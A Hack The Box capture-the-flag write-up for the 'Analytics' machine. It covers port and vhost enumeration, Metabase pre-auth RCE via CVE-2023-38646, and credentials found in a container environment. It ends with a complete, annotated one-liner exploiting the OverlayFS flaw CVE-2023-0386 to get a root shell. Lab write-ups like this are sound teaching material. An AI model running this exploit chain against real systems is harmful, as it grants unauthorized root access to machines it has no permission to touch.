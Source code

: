 # Analytics Writeup - by Thammanant Thamtaranon  
- Analytics is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.233`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  
- I added `analytical.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u http://analytical.htb`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- No interesting directories were found.

- I then enumerated virtual hosts using `ffuf`:  
  `ffuf -u http://analytical.htb -H "Host: FUZZ.analytical.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
![VHost](VHost.png)  
- I discovered `data.analytical.htb`, so I added that to `/etc/hosts` as well.

- Visiting `http://data.analytical.htb/` redirected to the login page:  
  `http://data.analytical.htb/auth/login?redirect=%2F`

## Exploitation  
- I attempted to log in using `admin@analytical.com:admin`.  
  - The error message confirmed that the email exists, but the password is incorrect.  
![Login](Login.png)

- After a few login attempts, I was rate-limited, so I looked for another way in.

- Since the login panel is Metabase, I searched for known Metabase vulnerabilities.

- I found `CVE-2023-38646`, which abuses a setup token from `/api/session/properties`.  
  - This endpoint also discloses the Metabase version in the response.

- I accessed that endpoint and confirmed the Metabase version is `0.46.6`, which is vulnerable.  
![Version](Version.png)

- This vulnerability allows RCE by using an SQLi in the H2 driver during DB validation.

- I extracted the setup token.  
![Token](Token.png)

- I ran the exploit and got a shell as `metabase`.  
![Shell](Shell.png)

- The environment looked like a container, so I ran `env` and found credentials.  
![Credential](Credential.png)

- I then used SSH with those credentials to get into the host as user `metalytics`.  
![SSH](SSH.png)

- I obtained the user flag.

## Privilege Escalation  
- Running `sudo -l` showed that `metalytics` had no sudo privileges.

- I looked around for privesc paths and ran `uname -a`.  
![Kernal](Kernal.png)

- The kernel version was `6.2`, so I looked for related CVEs.

- I tested a few kernel exploits:
  - `CVE-2024-1086` caused a crash, so I skipped it.
  - `CVE-2023-3269` was too complex for an Easy box.
  - `CVE-2023-0386` worked.

- **CVE-2023-0386** is a privilege escalation vulnerability in OverlayFS.  
  - It **abuses improper capability retention**.
  - This allows a non-root user in a new user namespace to execute a binary with `cap_setuid`, effectively gaining root.

- I used the following exploit chain:
  ```bash
  unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
  ```
![ID](ID.png)

### Explanation:
1. `unshare -rm sh -c "..."`
   - `unshare` creates new namespaces for isolation.  
   - `-r` creates a new **user namespace** with root privileges inside it (unprivileged outside).  
   - `-m` creates a new **mount namespace** so mounts affect only this environment.  
   - `sh -c "..."` executes commands in this sandboxed environment.

2. `mkdir l u w m`
   - Creates four directories:  
     - `l` = lowerdir: holds original files (copied python3).  
     - `u` = upperdir: will hold copied-up files with retained capabilities.  
     - `w` = workdir: required by OverlayFS to manage changes.  
     - `m` = mount point: where the overlay filesystem is mounted.

3. `cp /u*/b*/p*3 l/`
   - Copies the system’s Python3 binary to the `l/` directory (wildcards match `/usr/bin/python3`).

4. `setcap cap_setuid+eip l/python3`
   - Assigns the `cap_setuid` capability to the copied python3 binary.  
   - `+eip` means Effective, Inheritable, and Permitted capabilities are set.  
   - This allows the binary to escalate privileges by setting its UID.

5. `mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`
   - Mounts an **OverlayFS** filesystem at directory `m`.  
   - `lowerdir=l` uses the original Python binary.  
   - `upperdir=u` will hold any modified/copied files.  
   - `workdir=w` is required by OverlayFS to track changes.  
   - This lets us manipulate files without changing the original lowerdir.
   - `l/` holds the read-only Python binary with the capability, `u/` is where changes would be saved (but aren’t, since we only run it), and `m/` merges them so we can use the file without losing the capability.

6. `touch m/*`
   - Makes the kernel treat u/python3 as a new distinct file. Becuase if we run `l/python` directly the Kernel verifies capabilities against the original filesystem which has stricter checks.
   - Forces OverlayFS to:
     - Initialize metadata in `u/`
     - Maintain reference to original `l/python3` inode
   - Preserves capabilities because:
     - No real copy occurs
     - Original file attributes remain intact

8. `u/python3 -c 'import os;os.setuid(0);os.system("id")'`
   - Runs Python binary that retains `CAP_SETUID`
   - Can escalate to root because:
     - Same physical file as `l/python3` (same inode)
     - OverlayFS metadata tricks kernel into preserving caps
   - Verifies root access via `id` command

- After confirming root access, I replaced the command with `/bin/bash` to get a full root shell.  
![Root](Root.png)

- I obtained the root flag.
